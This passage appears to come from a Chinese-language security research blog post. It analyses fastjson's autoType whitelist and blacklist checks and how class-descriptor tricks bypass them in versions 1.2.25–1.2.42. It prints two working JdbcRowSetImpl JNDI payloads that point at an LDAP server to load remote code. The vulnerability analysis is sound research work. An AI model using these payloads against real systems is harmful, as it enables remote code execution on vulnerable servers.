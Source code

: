 添加反序列化白名单有3种方法：
1. 使用代码进行添加：`ParserConfig.getGlobalInstance().addAccept(“org.su18.fastjson.,org.javaweb.”)`
2. 加上JVM启动参数：`-Dfastjson.parser.autoTypeAccept=org.su18.fastjson.`
3. 在fastjson.properties中添加：`fastjson.parser.autoTypeAccept=org.su18.fastjson.`

看一下 `checkAutoType()` 的逻辑，如果开启了 autoType，先判断类名是否在白名单中，如果在，就使用 `TypeUtils.loadClass` 加载，然后使用黑名单判断类名的开头，如果匹配就抛出异常。

![](https://su18.org/post-images/1616462597114.png)

如果没开启 autoType ，则是先使用黑名单匹配，再使用白名单匹配和加载。最后，如果要反序列化的类和黑白名单都未匹配时，只有开启了 autoType 或者 expectClass 不为空也就是指定了 Class 对象时才会调用 `TypeUtils.loadClass` 加载。

![](https://su18.org/post-images/1616463143551.png)

接着跟一下 `loadClass` ，这个类在加载目标类之前为了兼容带有描述符的类名，使用了递归调用来处理描述符中的 `[`、`L`、`;` 字符。

![](https://su18.org/post-images/1616463632814.png)

因此就在这个位置出现了逻辑漏洞，攻击者可以使用带有描述符的类绕过黑名单的限制，而在类加载过程中，描述符还会被处理掉。因此，漏洞利用的思路就出来了：需要开启 autoType，使用以上字符来进行黑名单的绕过。

最终的 payload 其实就是在之前的 payload 类名上前后加上`L`和`;`即可：

```json
{
	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

## 3. fastjson-1.2.42

在版本 1.2.42 中，fastjson 继续延续了黑白名单的检测模式，但是将黑名单类从白名单修改为使用 HASH 的方式进行对比，这是为了防止安全研究人员根据黑名单中的类进行反向研究，用来对未更新的历史版本进行攻击。同时，作者对之前版本一直存在的使用类描述符绕过黑名单校验的问题尝试进行了修复。

> 影响版本：`1.2.25 <= fastjson <= 1.2.42`
> 描述：一点也不坦诚，学学人家 jackson，到现在还是明文黑名单。而且到目前为止很多类已经被撞出来了。

还是关注 `com.alibaba.fastjson.parser.ParserConfig` 这个类，作者将原本的明文黑名单转为使用了 Hash 黑名单，防止安全人员对其研究。
![](https://su18.org/post-images/1616466267011.png)

并且在 checkAutoType 中加入判断，如果类的第一个字符是 `L` 结尾是 `;`，则使用 substring进行了去除。写判断也不好好写，非要写 hash 。
![](https://su18.org/post-images/1616466255355.png)

但是这种判断完全是徒劳的，因为在最后处理时是递归处理，因此只要对描述符进行双写即可绕过：

```java
{
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```
